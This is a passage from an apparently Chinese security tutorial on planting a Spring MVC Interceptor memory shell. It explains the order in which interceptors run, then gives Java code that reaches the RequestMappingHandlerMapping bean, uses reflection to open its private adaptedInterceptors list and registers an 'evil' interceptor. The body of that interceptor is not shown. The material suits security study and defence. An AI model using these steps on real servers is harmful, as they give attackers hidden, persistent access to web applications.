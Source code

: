 
而且可以看到applyPreHandle后面就是ha.handle()，执行controller，所以说Interceptors是在controller之前执行的



师傅给出了Filter,controller,Interceptors执行的顺序：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230116152540872.png)

- preHandle( )：该方法在控制器的处理请求方法前执行，其返回值表示是否中断后续操作，返回 true 表示继续向下执行，返回 false 表示中断后续操作。
- postHandle( )：该方法在控制器的处理请求方法调用之后、解析视图之前执行，可以通过此方法对请求域中的模型和视图做进一步的修改。
- afterCompletion( )：该方法在控制器的处理请求方法执行完成后执行，即视图渲染结束后执行，可以通过此方法实现一些资源清理、记录日志信息等工作。

### 1. 获取RequestMappingHandlerMapping

因为是在AbstractHandlerMapping类中，用addInterceptor向拦截器chain中添加的。该类是抽象类，可以获取其实现类RequestMappingHandlerMapping。一样的，前面提了四种方法。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230116152954118.png)

```java
WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);

RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);

```

### 2.反射获取adaptedInterceptors

获取adaptedInterceptors，private属性，使用反射。并且传入RequestMappingHandlerMapping初始化

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230116153445849.png)

```java
    Field field = null;
    try {
        field = RequestMappingHandlerMapping.class.getDeclaredField("adaptedInterceptors");
    } catch (NoSuchFieldException e) {
        e.printStackTrace();
    }
    field.setAccessible(true);
    List<HandlerInterceptor> adaptInterceptors = null;
    try {
        adaptInterceptors = (List<HandlerInterceptor>) field.get(mappingHandlerMapping);
    } catch (IllegalAccessException e) {
        e.printStackTrace();
    }
```

### 3.添加恶意Interceptors

```java
adaptInterceptors.add(new InjectEvilInterceptor("a"));
```
